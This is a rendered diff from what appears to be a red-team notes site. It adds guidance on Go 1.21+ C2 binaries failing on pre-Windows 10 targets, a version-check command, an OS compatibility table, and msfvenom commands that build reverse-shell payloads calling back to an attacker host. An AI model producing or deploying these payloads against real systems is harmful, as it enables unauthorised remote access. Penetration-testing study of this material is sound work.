

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from post_exploitation/evasion.md, in a window 1280 px wide and 1400 px high, scrolled down 3675 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
evasion: add Go 1.21+ Windows version-floor compatibility check
Go 1.21 raised the minimum Windows target from Win7/Server 2008 R2 to
Win10/Server 2019. Any Go-compiled binary (Sliver, modern C2 tools) exits
immediately on pre-Win10 systems with no output and no callbacks. Added a
pre-delivery check (strings | grep) and OS/build compatibility table to
post_exploitation/evasion.md, with MSF shellcode fallback for old targets.

````diff
--- a/post_exploitation/evasion.md
+++ b/post_exploitation/evasion.md
@@ -170,6 +170,42 @@ $thr.Invoke()
 
 ---
 
+## Go-compiled Tool Compatibility (Windows version floor)
+
+> **Go 1.21+ minimum OS floor:** Go 1.21 raised the minimum supported Windows version from
+> Win7/Server 2008 R2 to Win10/Server 2019. Any binary compiled with Go 1.21+ (Sliver 1.7+,
+> any modern Go C2 or tool) exits immediately on pre-Win10 targets -- the Go runtime version
+> check fires at startup with zero output and zero network I/O. Diagnosis: the beacon appears
+> to execute but produces no callbacks.
+
+**Pre-delivery check -- always run before uploading a Go binary to an old Windows target:**
+
+```bash
+# Extract the embedded Go toolchain version string from any Go binary
+strings <binary> | grep "^go1\."
+# e.g. "go1.25.0" -> Go 1.21+, will NOT run on Win7 / Server 2008 R2
+```
+
+**Affected OS / build matrix:**
+
+| OS | Build (`systeminfo`) | Go 1.21+ runs? |
+|---|---|---|
+| Windows Server 2003 SP2 | 5.2.3790 | No |
+| Windows Server 2008 R2 RTM | 6.1.7600 | No |
+| Windows Server 2008 R2 SP1 | 6.1.7601 | No |
+| Windows 7 (any SP) | 6.1.760x | No |
+| Windows Server 2019 / Win10 1809+ | 10.0.17763+ | Yes |
+
+**Fallback for pre-Win10 targets -- use MSF shellcode-based payloads (no Go runtime):**
+
+```bash
+msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$LHOST LPORT=$LPORT -f exe -o shell.exe
+msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o shell.exe
+# Or use PowerShell in-memory delivery (no compiled binary needed)
+```
+
+---
+
 ## LOLBAS — AppLocker / Whitelisting Bypass
 
 Live-Off-the-Land binaries: signed Microsoft binaries that execute arbitrary code.
````
